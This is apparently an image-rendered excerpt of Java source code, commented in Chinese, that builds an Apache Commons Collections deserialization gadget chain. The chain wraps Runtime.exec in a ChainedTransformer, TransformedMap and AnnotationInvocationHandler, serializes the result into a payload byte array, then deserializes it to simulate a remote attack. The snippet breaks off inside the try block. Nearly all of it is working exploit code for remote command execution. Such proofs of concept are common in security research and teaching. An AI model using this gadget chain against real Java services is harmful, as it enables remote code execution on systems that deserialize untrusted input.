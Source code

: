 ```java

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
        };

        // 创建ChainedTransformer调用链对象
        Transformer transformedChain = new ChainedTransformer(transformers);

        // 创建Map对象
        Map map = new HashMap();
        map.put("value", "value");

        // 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, transformedChain);


        try {
            // 获取AnnotationInvocationHandler类对象
            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

            // 获取AnnotationInvocationHandler类的构造方法
            Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

            // 设置构造方法的访问权限
            constructor.setAccessible(true);

            // 创建含有恶意攻击链(transformedMap)的AnnotationInvocationHandler类实例，等价于：
            // Object instance = new AnnotationInvocationHandler(Target.class, transformedMap);
            Object instance = constructor.newInstance(Target.class, transformedMap);

            // 创建用于存储payload的二进制输出流对象
            ByteArrayOutputStream baos = new ByteArrayOutputStream();

            // 创建Java对象序列化输出流对象
            ObjectOutputStream out = new ObjectOutputStream(baos);

            // 序列化AnnotationInvocationHandler类
            out.writeObject(instance);
            out.flush();
            out.close();

            // 获取序列化的二进制数组
            byte[] bytes = baos.toByteArray();

            // 输出序列化的二进制数组
            System.out.println("Payload攻击字节数组：" + Arrays.toString(bytes));

            // 利用AnnotationInvocationHandler类生成的二进制数组创建二进制输入流对象用于反序列化操作
            ByteArrayInputStream bais = new ByteArrayInputStream(bytes);

            // 通过反序列化输入流(bais),创建Java对象输入流(ObjectInputStream)对象
            ObjectInputStream in = new ObjectInputStream(bais);

            // 模拟远程的反序列化过程
            in.readObject();

```